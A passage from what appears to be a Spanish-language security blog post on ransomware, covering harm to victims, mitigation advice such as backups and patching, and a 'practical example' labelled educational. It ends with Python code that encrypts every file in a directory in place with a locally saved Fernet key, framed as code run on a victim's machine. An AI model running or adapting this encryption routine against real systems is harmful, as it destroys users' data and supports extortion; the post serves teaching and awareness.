 ¿Como afecta a las victimas?

1. **Pérdida de acceso a datos críticos**: Tanto personales como empresariales
2. **Tiempo de inactividad**: En los negocios esto puede resultar en pérdidas
3. **Daño a la reputación**: Especialmente para los negocios que manejan información sensible de clientes.
4. **Costo del rescate**: Nunca se recomienda pagar, pero muchas victimas lo hacen para intentar recuperar su datos.
5. **Posible pérdida definitiva de datos**: No hay garantía de que los ciberdelincuentes proporcionen la clave de descifrado al pagar.

#### Consejos para mitigar el riesgo

Mis consejos para mitigar el riesgo son los siguientes: 
1. Hacer **copias de seguridad regularmente**. Preferiblemente, tener mínimo una en un lugar externo.
2. Deberíamos de mantener los **sistemas actualizados**, aplicando los parches de seguridad y las configuraciones automáticas para el software y el sistema operativo.
3. Usar soluciones de seguridad robustas como **firewalls y antivirus**, los cuales suelen incluir protección contra ransomware.
4. Evitar correos de **phishing**: No abrir archivos adjuntos ni hacer clic en enlaces sospechosos.
5. **Limitar los privilegios** administrativos para reducir el impacto en caso de infección y segmentar la red en entornos corporativos.


#### Ejemplo práctico




> **Nota importante:** Me gustaría recordar que esto es solo educativo y no debe de usarse de forma maliciosa.
{: .prompt-warning }




1. Código ejecutado en la máquina victima

```Python
from cryptography.fernet import Fernet
import os

# Generar una clave y guardarla en un archivo (en un ransomware real, esto estaría en un servidor remoto)
def generar_clave():
    clave = Fernet.generate_key()
    with open("clave_secreta.key", "wb") as archivo_clave:
        archivo_clave.write(clave)

# Cargar la clave desde el archivo
def cargar_clave():
    return open("clave_secreta.key", "rb").read()

# Cifrar archivos en un directorio
def cifrar_archivos(directorio, clave):
    fernet = Fernet(clave)
    for archivo in os.listdir(directorio):
        ruta_archivo = os.path.join(directorio, archivo)
        
        # Evitar cifrar la clave y otros archivos críticos
        if os.path.isfile(ruta_archivo) and not archivo.endswith(".key"):
            with open(ruta_archivo, "rb") as archivo_obj:
                contenido = archivo_obj.read()
            
            # Cifrar el contenido del archivo
            contenido_cifrado = fernet.encrypt(contenido)
            with open(ruta_archivo, "wb") as archivo_obj:
                archivo_obj.write(contenido_cifrado)
```